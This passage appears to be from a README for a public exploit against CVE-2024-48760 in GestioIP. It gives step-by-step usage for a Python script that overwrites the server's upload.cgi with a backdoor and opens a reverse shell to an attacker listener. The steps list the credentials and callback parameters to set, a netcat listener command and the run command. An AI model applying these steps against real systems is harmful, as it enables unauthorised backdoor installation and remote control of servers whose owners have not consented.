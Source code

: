 There could be various options, I'm just listing you some of them (the order doesn't reflect preference).


### Option 1: using the python script

The script verifies if the target file `upload.cgi` has been already replaced by an attacker backdoor or not.

If not, the script uploads the backdoor overwriting the target file and then it runs commands to establish a reverse shell to the attacker listener (edit the script to set the IP address, port).

**1. Edit the script**

You need to set this parameters before running the script:

`username = "gipadmin"`

`password = "PASSWORD"`

`domain = "localhost"`

`local_ip = "10.20.0.1"`

`local_port = 443`


**2. Listener**

Open your netcat listener

`nc -nlvp 443`


**3. Run the script**

Just run:

`python3 exploit-gestioip.py`

![](files/CVE-2024-48760-12.png)

If you exit and need to access again, the script does it ok:

![](files/CVE-2024-48760-11.png)
